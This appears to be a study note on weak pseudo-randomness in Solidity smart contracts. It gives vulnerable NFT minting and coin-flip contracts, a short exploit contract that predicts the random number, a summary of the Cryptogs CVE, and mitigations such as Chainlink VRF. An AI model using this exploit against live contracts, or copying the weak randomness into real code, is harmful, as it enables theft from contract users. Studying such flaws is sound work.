 ```yaml
---
title: 7.WeakRandomnes
tags:
- Solidity-Attack
---
```


# 7.WeakRandomnes

Weak PRNG due to a modulo on block.timestamp , now or blickhash.

These can be infulences by miners to some extent so they shoude be avoided.

Many Dapp are using Randomness , such as NFT , GameFi.

But due to everything on BlockChain are public and deterministic . Solidity does not have function to generate RandomNumbers. So many Developers are using some hash function to generate RandomNumbers like blockhash() and keccak256().

# Examples

## E-1

### Code

```solidity
 contract BadRandomness is ERC721 {
    uint256 totalSupply;

    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("", ""){}

    // 铸造函数：当输入的 luckyNumber 等于随机数时才能mint
    function luckyMint(uint256 luckyNumber) external {
        uint256 randomNumber = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))) % 100; // get bad random number
        require(randomNumber == luckyNumber, "Better luck next time!");

        _mint(msg.sender, totalSupply); // mint
        totalSupply++;
    }
}
```

### Observation

with quickly look , we can find the luckMint() take a number as the argument ，if `randomNumber == luckyNumber`  , users can mint `NFT`.

Because it use `blockhash` and `block.timestamp` . Attacker can easily guess the LuckNumber.

### Attack

```solidity
contract Attack {
    function attackMint(BadRandomness nftAddr) external {
        // Prev calculate
        uint256 luckyNumber = uint256(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        ) % 100;
        // Attack
        nftAddr.luckyMint(luckyNumber);
    }
}
```

## E-2 TimeManipulation

The block timestamp is a uint64 value contained in the Ethereum block header, representing the UTC timestamp (in seconds) when the block was created. Before The Merge, Ethereum adjusted block difficulty based on computing power, so the block time was variable, averaging 14.5 seconds per block, and miners could manipulate the block time. After The Merge, the interval was changed to a fixed 12 seconds per block, and validators were no longer able to manipulate the block time.

In Solidity, developers can access the current block's timestamp by using the global variable `block.timestamp`, which is a uint256 type.

### Code

```solidity
contract TimeMnipulation is ERC721 {
    uint256 totalSupply;

    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("", ""){}

    // 铸造函数：当区块时间能被7整除时才能mint成功
    function luckyMint() external returns(bool success){
        if(block.timestamp % 170 == 0){
            _mint(msg.sender, totalSupply); // mint
            totalSupply++;
            success = true;
        }else{
            success = false;
        }
    }
}
```

## E-3

```solidity
function randomNumber() public view returns (uint) {
    return uint(keccak256(abi.encodePacked(block.difficulty))) % 10;
}
```

## E-4 Real Attack on Cryptogs

[Cryptogs](https://cryptogs.io/) is the game of pogs on the Ethereum blockchain. It is a kind of game of slap-match. This game generates random numbers using `blockhash(uint blockNumber)` to decide the winner. In Solidity, `blockhash(uint blockNumber)` function returns ‘0’ when `blockNumber` is older than 256 blocks from the current block(`block.number`). Cryptogs doesn’t check the `blockNumber` whether it is too old or not, so attackers can predict the random numbers and always win.

Code：

There are two functions generating random numbers: `endCoinFlip()` and `throwSlammer()`. Both functions required preliminary functions: `startCoinFlip()` and `raiseSlammer()`.

First, let’s check `startCoinFlip()` and `endCoinFlip()`. The two functions decide who goes first.

![alt text](Untitled.png)

[Attack on Pseudo-random number generator(PRNG) used in Cryptogs, an Ethereum (CVE-2018–14715)](https://medium.com/coinmonks/attack-on-pseudo-random-number-generator-prng-used-in-cryptogs-an-ethereum-cve-2018-14715-f63a51ac2eb9)

## E-6 Ethernaut::CoinFlip

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

我们只需要实现和CoinFlip中一样的逻辑就可以了，因为在整个过程都发生在一个tx中所以 `block.hash` 和 `block.number` 是相同的。

# Mitigation

- 我们通常使用预言机项目提供的链下随机数来预防这类漏洞。
- 在合并（The Merge）之前，以太坊矿工可以操纵区块时间，如果抽奖合约的伪随机数依赖于区块时间，则可能被攻击。合并之后，以太坊改为固定 12s 一个区块，并且验证节点不能操纵区块时间。因此这类攻击不会在以太坊上发生，但仍可能在其他公链中遇到。
- 1. Utilize decentralized randomness beacons like Chainlink’s VRF.